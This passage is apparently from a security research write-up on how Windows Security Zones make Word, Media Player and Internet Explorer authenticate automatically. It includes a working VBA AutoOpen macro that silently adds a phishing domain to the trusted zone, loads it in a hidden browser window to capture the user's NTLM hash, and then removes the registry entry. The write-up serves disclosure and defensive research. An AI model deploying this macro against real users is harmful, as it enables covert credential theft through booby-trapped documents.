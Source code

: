 ### Testing Summary {#TestingSummary}

The previous tests demonstrate differences in how Security Zones are treated by built-in web clients. The built-in Microsoft Word web client will automatically authenticate to servers in any trusted Security Zone, while Windows Media Player will automatically authenticate to servers in the “Computer” zone but not the “Trusted Sites” zone. Other clients (Internet Explorer, and others using WinINet or WinHTTP) also seem to trust the “Computer” zone more than the “Trusted Sites” zone.

The existence of varying dangerous behavior implies that authentication isn’t standardized, even among standard applications and libraries. But with the above tested clients, even if an attacker tricks a victim into opening a URL, they would need to have the domain added to a trusted zone before the leak would occur. Due to this Security Zone limitation, any useful attack would require some method of code execution, such as an Office macro.

## Proof of Concept {#ProofofConcept}

By default, a user can add domains to trusted Security Zones. If the user can add trusted domains, then a phishing script/macro/binary running as the user can also add its own domain.

This macro adds a phishing domain to the registry in the “Computer” zone and then opens it with a medium-integrity IE window (which allows it to launch invisibly). After the hash is captured, the domain is removed from the registry, and the invisible window is closed.

{% highlight vb %}
Sub AutoOpen()
    Dim w, i As Object
    Dim k
    Set w = CreateObject("Wscript.Shell")
    k = "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\[EXAMPLE_DOMAIN]\"
    w.RegWrite k, "", "REG_SZ"
    w.RegWrite k + "https", 0, "REG_DWORD"
    Set i = GetObject("new:{D5E8041D-920F-45e9-B8FB-B1DEB82C6E5E}")
    i.Navigate "https://[EXAMPLE_DOMAIN]/"
    w.RegDelete k
    Set w = Nothing
    Do While i.ReadyState <> 4: DoEvents: Loop
    i.Quit
    Set i = Nothing
End Sub
{% endhighlight %}

This can be demonstrated by creating a new user named “User1” with no special privileges, and using this account to open the phishing document.

{: .center}
[![document](/assets/hashes/document.png)](/assets/hashes/document.png)
